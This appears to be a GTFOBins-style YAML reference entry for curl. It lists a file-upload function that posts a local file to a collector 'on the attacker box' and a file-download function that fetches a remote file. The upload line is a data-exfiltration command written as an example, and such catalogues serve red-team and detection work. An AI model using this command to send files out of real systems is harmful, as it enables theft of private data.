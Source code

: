 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        curl -X POST -d "@$LFILE" $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        curl $URL -o $LFILE
---
```

